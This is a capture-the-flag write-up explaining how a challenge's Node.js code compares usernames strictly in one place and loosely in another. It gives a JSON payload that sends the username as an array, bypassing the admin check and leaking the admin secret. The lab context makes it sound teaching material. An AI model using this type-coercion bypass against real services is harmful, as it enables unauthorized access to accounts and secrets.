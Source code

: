 # Admins Secret

Identify as an admin and get the flag!

https://chal52-zsftd.vercel.app/secret

# Solution

The goal is to bypass the first comparison but trigger the second comparison using the username or role of "admin".

```js
// This is the first comparison
if (user.role === "admin" || user.username === "admin") {
	if (user.secret === process.env.ADMIN_KEY) {
		return res.send(`Welcome, true admin. Here's your flag: ${process.env.FLAG}`);
	} else {
		return res.status(403).send("Secret key required for admin access.");
	}
}

// ...

// This is the second comparison
thisUser = users.find((u) => u.username == user.username);
```

The issue is the first comparison is done strictly (eg using `===`) but the lookup comparison is done loosely (eg using `==`).

This means we can abuse coercion.

If we send a payload like this:

```json
{
  "user": {
    "username": ["admin"],
    "role": "user"
  }
}
```

The username of `["admin"]` will fail the strict comparison (no type coercion performed) but will be coerced into `"admin"` for the loose comparison.

```js
["admin"] === "admin"; // -> false
["admin"] == "admin"; // -> true
```

This lets us look up the admin user to get the secret. After that we can send a legit request using the acquired secret to get the flag.
